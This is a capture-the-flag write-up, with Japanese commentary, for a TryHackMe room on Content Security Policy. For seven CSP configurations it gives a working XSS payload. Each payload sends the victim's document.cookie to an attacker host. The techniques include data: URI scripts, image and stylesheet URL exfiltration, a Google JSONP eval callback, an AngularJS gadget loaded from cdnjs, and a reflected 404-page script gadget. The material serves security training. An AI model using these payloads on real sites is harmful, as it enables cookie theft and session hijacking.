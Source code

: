 # Content Security Policy  writeup
https://tryhackme.com/room/csp

## Task7

### #1
```HTTP
Content-Security-Policy: default-src * 'unsafe-inline';
```

```html
<script>fetch(`http://mymachine/${document.cookie}`)</script>
```

### #2
```HTTP
Content-Security-Policy: default-src *; style-src 'self'; script-src data:
```

```html
<script src="data:application/javascript,fetch(`http://mymachine/${document.cookie}`)"></script>
```

Content-Type指定は無くてもよい模様。
```html
<script src="data:,fetch(`http://mymachine/${document.cookie}`)"></script>
```

### #3
```HTTP
Content-Security-Policy: default-src 'none'; img-src *; style-src 'self'; 
```

```html
<img id="hoge" src=""><script>document.getElementById('hoge').src="http://mymachine/" + document.cookie;</script>
```

### #4
```HTTP
Content-Security-Policy: default-src 'none'; style-src * 'self'; script-src 'nonce-abcdef'
```

```html
<link id="hoge" rel="stylesheet" href="">
<script nonce="abcdef">document.getElementById('hoge').href="http://mymachine/" + document.cookie;</script>
```

### #5
```HTTP
Content-Security-Policy: default-src 'none'; style-src 'self'; img-src *; script-src 'unsafe-eval' *.google.com
```

```html
<script src="https://accounts.google.com/o/oauth2/revoke?callback=eval(window.open('http%3A%2F%2Fmymachine%2F'.concat(document.cookie)))"></script>
```

### #6
```HTTP
Content-Security-Policy: default-src 'none'; img-src *; style-src 'self'; script-src 'unsafe-eval' cdnjs.cloudflare.com
```

```html
<div class=""ng-app ng-csp>
  <base href=//cdnjs.cloudflare.com/ajax/libs/>
  <script src=angular.js/1.8.1/angular.js></script>
  <script src=prototype/1.7.2/prototype.js></script>
  {{$on.curry.call().console.log($on.curry.call().location=("http://mymachine/"+$on.curry.call().document.cookie))}}
</div>
```

### #7
```HTTP
Content-Security-Policy: default-src 'none'; media-src *; style-src 'self'; script-src 'self'
```

media-srcを使うようなので、audioやvideoが思い当たる。
ヒントが`404`なので、試しに、Target IPに存在しないディレクトリ名・ファイル名を付けてアクセスしてみる。

```
https://target_IP:3007/test/test.html
```

```HTTP
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 48
ETag: W/"30-cvuYSfoidujsEUt7m9vyFANmAEI"
Date: Sun, 01 Nov 2020 14:34:22 GMT
Connection: keep-alive

Error ( 404 ) - 'Unable to find /test/test.html'
```

URLのうち、ドメイン以下の部分がレスポンスに含まれていることが分かる。  
`script src`から存在しないURLを指定し、ボディ内のJavaScriptが返ってくれば動作することが期待できる。

下記のように書いた場合、スクリプトを含むボディを返すことができる。
https://target_IP/'; new Audio('http://mymachine/' + document.cookie);//

```HTTP
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 104
ETag: W/"68-DLlLYD53GpjPWook74UFl+58B7o"
Date: Sun, 01 Nov 2020 14:46:03 GMT
Connection: keep-alive

Error ( 404 ) - 'Unable to find /'; new Audio('http://mymachine/' + document.cookie);//'
```

確認出来たら、これを`script src`から呼ぶように書けば完成。
```html
<script src="'; new Audio('http://mymachine/' + document.cookie);//"></script>
```

